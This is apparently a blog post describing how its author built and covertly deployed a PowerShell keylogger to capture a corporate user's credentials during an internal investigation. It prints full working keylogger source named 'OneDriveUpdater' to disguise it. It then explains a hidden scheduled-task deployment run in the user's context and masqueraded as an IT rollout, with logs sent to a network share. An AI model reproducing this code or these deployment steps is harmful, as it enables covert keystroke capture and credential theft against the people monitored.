




## Background

As part of a recent internal investigation, we identified a need for a keylogger to grab some creds off a corporate laptop. After getting the necessary approvals lined up and documented, I started looking into how we might potentially do this.

This isn't a standard pentest/offensivesec engagement where we needed to gain access first, since we already had local admin as part of standard sysadmin access. So we jumped straight into "exploit development". Did a quick Google of keyloggers and found the usual candidates. Powershell would work for us in this scenario since we controlled antivirus and script execution settings, so we proceeded down this path.

Googlefu yielded several candidates, and I'll talk through the rationale / evolution of what happened for us with the four Powershell keyloggers we used: simple keylogger, Powersploit, Nishang, and Shima's.

## Possible Solutions

### simple keylogger

[https://gist.github.com/dasgoll/7ca1c059dd3b3fbc7277](https://gist.github.com/dasgoll/7ca1c059dd3b3fbc7277)

I initially found this keylogger as the fourth hit on Google. After quickly reviewing the code and getting familiar, this seemed like it would work for us. I particularly liked the fact this had 1) documented coded (yay) and 2) had good hooks for debugging (console writes, opening file at the end). Gave a good structure to quickly iterate through.

I'll speak later about our deployment, but the main challenge with this script was the fidelity of results that it returned. In our test deployment, we observed that keypresses were being dropped and it generally gave inconsistent results. It improved as the \[cci\_powershell\]Start-Sleep -Milliseconds 40\[/cci\] timer was reduced, but Powershell CPU usage went way up (at value=1, CPU util=25%). That'd be super noticable (cue fan noise) and the accuracy of keystroke capture still wasn't high enough. So we dropped this and started looking for alternative measures.

### Powersploit's Get-Keystrokes.ps1

[https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-Keystrokes.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-Keystrokes.ps1)

So that took me to Powersploit's Get-Keystrokes. I've used other Powersploit modules, but never this one so figured I'd give it a shot and it'd be a slam dunk. Did some quick modifications to suit our environment. But when executed, output was just the header "TypedKey","WindowTitle","Time" but no keys captured. I'm no Powershell expert, so after ~10 minutes of fiddling, decided I'd see if there were other options and return to this if I couldn't find another alternative.

### Nishang's Keylogger.ps1

[https://github.com/samratashok/nishang/blob/master/Gather/Keylogger.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Keylogger.ps1)

Alright well if Powersploit isn't going to work, let's check out the nishang option. The persistence features and web based upload are pretty cool for pentest engagements, but not necessarily needed for this endeavor. Making the modifications to bring storage back internal seemed to be more intense, so after about 5 minutes on looking at this, went back to Google for something closer to endstate (because I'm lazy).

### Shima's Keylogger

[https://vacmf.org/2013/01/23/powershell-keylogger/](https://vacmf.org/2013/01/23/powershell-keylogger/)

So then stumbled upon Shima's keylogger. This was succinct enough that it would do the trick! Testing this quickly showed promise, but the output file listed each character on its own line. Since English is left to right readstyle, and I really didn't want to write another script to post-process this file, I looked at options of fixing this. Output was based on:

```powershell
Out-File -FilePath $logfile -Encoding Unicode -Append -InputObject $mychar.ToString()
```

and there's a great argument `-NoNewline` that looked promising from [Powershell docs](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/out-file?view=powershell-6). Whipped that together and deployed on the test box, but quickly was back to the drawing board because this argument is a Powershell 5.0 feature, and the target was still on 2.0.

So to get around this, I figured let's just build a string buffer with the inputs and write whenever we get an enter. A bit hacky, but should work fine and writing the buffer upon carriage return to the output file will suit our needs. Not being a Powershell guru, took some time to finally identify how to flag a carriage return with the converted keystate, but after consulting an [Ascii table](https://ss64.com/ascii.html) and testing 10 (line feed) and 13 (carriage return), we had a winner. So final code looked like this:

```powershell
function OneDriveUpdater {
    $logfile = "$env:temp\key.log"
    $MAPVK_VK_TO_VSC = 0x00
    $MAPVK_VSC_TO_VK = 0x01
    $MAPVK_VK_TO_CHAR = 0x02
    $MAPVK_VSC_TO_VK_EX = 0x03
    $MAPVK_VK_TO_VSC_EX = 0x04

    $virtualkc_sig = @'
    [DllImport("user32.dll", CharSet=CharSet.Auto, ExactSpelling=true)]
    public static extern short GetAsyncKeyState(int virtualKeyCode);
'@

    $kbstate_sig = @'
    [DllImport("user32.dll", CharSet=CharSet.Auto)]
    public static extern int GetKeyboardState(byte[] keystate);
'@

    $mapchar_sig = @'
    [DllImport("user32.dll", CharSet=CharSet.Auto)]
    public static extern int MapVirtualKey(uint uCode, int uMapType);
'@

    $tounicode_sig = @'
    [DllImport("user32.dll", CharSet=CharSet.Auto)]
    public static extern int ToUnicode(uint wVirtKey, uint wScanCode, byte[] lpkeystate, System.Text.StringBuilder pwszBuff, int cchBuff, uint wFlags);
'@

    $getKState = Add-Type -MemberDefinition $virtualkc_sig -name "Win32GetState" -namespace Win32Functions -passThru
    $getKBState = Add-Type -MemberDefinition $kbstate_sig -name "Win32MyGetKeyboardState" -namespace Win32Functions -passThru
    $getKey = Add-Type -MemberDefinition $mapchar_sig -name "Win32MyMapVirtualKey" -namespace Win32Functions -passThru
    $getUnicode = Add-Type -MemberDefinition $tounicode_sig -name "Win32MyToUnicode" -namespace Win32Functions -passThru

    $bufferString = ""
    while ($true) {
        Start-Sleep -Milliseconds 40
        $validator = ""

        for ($char = 1; $char -le 254; $char++) {
            $vkey = $char
            $validator = $getKState::GetAsyncKeyState($vkey)

            if ($validator -eq -32767) {
                $l_shift = $getKState::GetAsyncKeyState(160)
                $r_shift = $getKState::GetAsyncKeyState(161)
                $caps_lock = [console]::CapsLock

                $scancode = $getKey::MapVirtualKey($vkey, $MAPVK_VSC_TO_VK_EX)

                $kbstate = New-Object Byte[] 256
                $checkkbstate = $getKBState::GetKeyboardState($kbstate)

                $mychar = New-Object -TypeName "System.Text.StringBuilder"
                $unicode_res = $getUnicode::ToUnicode($vkey, $scancode, $kbstate, $mychar, $mychar.Capacity, 0)

                if ($unicode_res -gt 0) {
                    if ($mychar.ToString() -eq "`r") {
                        #debugging write output in case of error
                        Out-File -FilePath $logfile -Encoding Unicode -Append -InputObject $bufferString.ToString()
                        $bufferString = ""
                    } else {
                        $bufferString = $bufferString + $mychar
                    }
                }
            }
        }
    }
}

OneDriveUpdater

```

## Deployment

For the deployment mechanism, we decided upon a scheduled task because we could connect to the endpoint remotely and we had local admin. So just pop open Scheduled Tasks, connect to endpoint remotely:





Create a task, and this is important, make sure to run it as the user. The script has to be run in the user's context, otherwise you'll get nothing.


Then another thing to note is the Action, we'll kick powershell.exe but adding the flag `-WindowStyle Hidden`, which will result in a quick flicker of a powershell window but will quickly disappear. So either kick it off when the user isn't around (afterhours) or make it a plausible looking script. We hijacked a current IT rollout to masquerade the script so it didn't arouse too much suspicion.



The rest of the options are up to you: triggers, job ending/repeating, etc. We went with time kickoff in this particular example.

One final note is that we went with a network share location to store the files, a local filer that did the trick. Helps avoid the storage issue if the files get too large, and one less connection into the target's box.

### Conclusion

So that's about a wrap. Was a useful exercise for us, got me more familiar with keylogger options on the cheap, since we don't own a product that would do this for us.  And I wasn't really in the mood to download an _insert nation-state here_ backdoored keylogger. Anyway, hope this helped. Enjoy
